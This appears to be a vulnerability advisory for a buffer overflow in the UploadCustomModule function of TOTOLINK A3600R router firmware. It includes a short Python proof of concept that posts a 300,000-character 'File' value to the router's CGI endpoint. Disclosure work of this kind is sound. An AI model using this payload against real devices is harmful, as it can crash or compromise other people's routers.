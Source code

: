 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `UploadCustomModule` function. The `v10` variable receives the `File` parameter from a POST request. However, since the user can control the input of `File`, the `strcpy(v18, v10);` can cause a buffer overflow vulnerability.

![image-20240721211523937](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721211523937.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"File":"a"*300000,"topicurl":"UploadCustomModule"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
